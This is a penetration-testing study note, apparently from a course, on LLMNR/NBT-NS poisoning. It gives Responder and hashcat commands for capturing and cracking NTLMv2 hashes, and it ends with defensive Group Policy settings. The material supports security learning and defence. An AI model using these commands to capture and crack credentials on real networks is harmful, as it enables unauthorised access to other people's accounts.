 #cybersecurity #hacking #penetration-testing 
#active-directory #man-in-the-middle 

# LLMNR Poisoning

## What is LLMNR (link-local multicast name resolution)?
- used to identify hosts when DNS fails to do so
- previously NBT-NS
- key flaw is that the service utilizes a user's username and NTLMv2 hash when appropriately responded to

## # LLMNR Poisoning Overview
- LLMNR Poisoning is a man-in-the-middle attack 
![](https://i.imgur.com/CIJBzc7.png)

## Steps
1. run responder ```python Responder.py -| tun0 -rdw```
2. an event occurs
3. get NTLMv2 hashes
4. crack the hash ```hashcat -m 5600 hashes.txt. rockyou.txt```

## Capturing NTLMv2 Hashes with Responder

Setup responder listening from attack machine (kali)

This didn't work for me:
```bash
responder -I eth0 -rdw
```

Kept getting a message ```error: no such option: -r```

This worked:
```bash
responder -I eth0 -dwP
```

### Responder issues update from PNPT Staff
```
Responder is missing -r

The new version of responder has had the -r switch removed, to install the old version ( one used with the course )

New command line is : 

responder -I eth0 -dw

Or....

Update: Added to Pimpmykali rev 1.4.7 
Menu option R

Does the following: 
wget http://old.kali.org/kali/pool/main/r/responder/responder_3.0.6.0-0kali2_all.deb

sudo apt update

sudo apt -y remove responder 

sudo dpkg -i responder_3.0.6.0-0kali2_all.deb

sudo apt-mark hold responder

This will download the old responder, uninstall the current responder version, install the old responder verion 3.0.6.0 and you can use the old command line in the course material
```

Then try to connect to the attack machine from one of the victim machines (Vegeta)
The Hash Dump is produced from the responder:

![](https://i.imgur.com/Ytmgzbr.png)

## Password Cracking with Hashcat
#hash-cracking

- I ran this thru with my M1 Max, shit was fast! ```brew install hashcat```
- crack the hash ```hashcat -m 5600 hashes.txt. rockyou.txt```

![](https://imgur.com/4pzyFt5.png](https://imgur.com/4pzyFt5.png)

### Where to Find Wordlists?
- https://github.com/danielmiessler/SecLists
- https://github.com/initstring/passphrase-wordlist

## LLMNR Poisoning Defense

The best defense in this case is to disable LLMNR and NBT-NS.
- To disable LLMNR, select "Turn OFF Multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.
- To disable NBT-NS, navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > ﻿﻿Advanced tab > WINS tab and select "Disable NetBIOS over TCP/IP"

If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
-   ﻿﻿Require Network Access Control
-   ﻿﻿Require strong user passwords (e.g., >14 characters in length and limit common word usage). The more complex and long the password, the harder it is for an attacker to crack the hash.